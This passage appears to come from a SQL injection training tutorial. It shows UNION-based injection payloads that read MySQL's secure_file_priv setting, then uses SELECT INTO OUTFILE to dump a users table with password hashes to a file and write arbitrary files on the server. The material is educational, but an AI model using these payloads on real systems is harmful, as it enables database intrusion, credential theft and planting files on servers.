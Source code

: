 This shouldn't be a problem, as all variables and most configurations' are stored within the ``INFORMATION_SCHEMA`` database. MySQL global variables are stored in a table called ``global_variables``, and as per the documentation, **this table has two columns** ``variable_name`` and ``variable_value``.

We have to select these two columns from that table in the ``INFORMATION_SCHEMA`` database. There are hundreds of global variables in a MySQL configuration, and we don't want to retrieve all of them. We will then **filter the results** to only show the ``secure_file_priv`` variable, using the ``WHERE`` clause we learned about.

The final SQL query is the following:
```sql!
cn' UNION SELECT variable_name,variable_value,3,4 FROM INFORMATION_SCHEMA.global_variables WHERE variable_name = "secure_file_priv"-- -
```

Similar to other ``UNION`` injection queries, we can get the above query result with the following payload. **Remember to add two more columns 1 & 4 as junk data to have a total of 4 columns**:
```sql!
cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -
```
And the result shows that the ``secure_file_priv`` value is ``empty``, meaning that we can read/write files to any location.

#### SELECT INTO OUTFILE
Now that we have know we can write files, let's try to do that using the ``SELECT .. INTO OUTFILE`` statement. The [SELECT INTO OUTFILE](https://mariadb.com/kb/en/select-into-outfile/) statement can be used to write data from select queries into files. This is usually used for exporting data from tables.

To use it, we can add ``INTO OUTFILE '...'`` after our query to export the results into the file we specified. The below example saves the output of the users table into the ``/tmp/credentials file``:
```sql!
SELECT * FROM users INTO OUTFILE '/tmp/credentials';
```

If we go to the back-end server and ``cat`` the file, we see that table's content:
```bash!
$ cat /tmp/credentials

1       admin   392037dbba51f692776d6cefb6dd546d
2       newuser 9da2c9bcdf39d8610954e0e11ea8f45f
```

It is also possible to directly ``SELECT`` strings into files, allowing us to write arbitrary files to the back-end server.
```sql!
SELECT 'this is a test file' INTO OUTFILE '/tmp/test.txt'
```
When we ``cat`` the file, we see that text:
```bash!
$ cat /tmp/test.txt

this is a test file

$ ls -la /tmp/test.txt 

-rw-rw-rw- 1 mysql mysql 15 Jul  8 06:20 /tmp/test.txt
```
As we can see above, the ``test.txt`` file was created successfully and is owned by the ``mysql`` user.
>[!Tip]
Advanced file exports utilize the '``FROM_BASE64("base64_data")``' function in order to be able to write long/advanced files, including binary data.
#### Writing Files through SQL Injection